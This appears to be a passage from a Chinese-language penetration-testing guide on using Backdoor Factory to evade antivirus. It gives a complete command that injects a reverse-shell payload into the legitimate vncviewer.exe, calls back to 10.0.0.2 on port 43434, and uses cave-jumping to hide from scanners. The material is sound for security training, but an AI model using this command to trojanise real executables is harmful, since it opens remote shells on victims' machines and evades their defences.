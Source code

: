 # 利用后门工厂逃避杀毒

该漏洞代码在未安装防病毒软件的 XP SP2 计算机上运行良好，在未安装防病毒软件的任何计算机上运行良好，但在安装了基本默认 Windows 防病毒软件的 Windows 10 计算机上效果较差。我们不得不关闭防病毒软件的实时检查功能，以确保邮件阅读无误，防病毒软件清除了我们篡改的文件。作为安全工程师，我们很高兴 MicrosoftWindows10 具有如此有效的反恶意软件功能，这是一项全新的功能。作为渗透测试人员，我们感到失望。

后门工厂将外壳代码插入到工作的 EXE 文件中，而不会对原始文件进行太多更改。您可以使用`/usr/share/windows-binaries`目录中的可执行文件，如以下屏幕截图所示，或任何其他未编码保护的 Windows 二进制文件：

![](img/28f499f6-38d8-4c5d-a6b7-98ee4b56d76b.png)

运行 Backdoor Factory 并在端口`43434`上的`10.0.0.2`创建具有侦听器的远程 shell 的代码如下所示。跳洞选项将代码散布在可执行文件的空白处，进一步混淆防病毒扫描：

```
backdoor-factory -cave-jumping -f /usr/share/windows-binaries/vncviewer.exe -H 10.0.0.2 -P 43434 -s reverse_shell_tcp  
```

如果在外壳代码选择中出错，应用程序将显示您的选择：

![](img/c25fd43e-5741-4d32-bb29-1b3ffa7e30af.png)
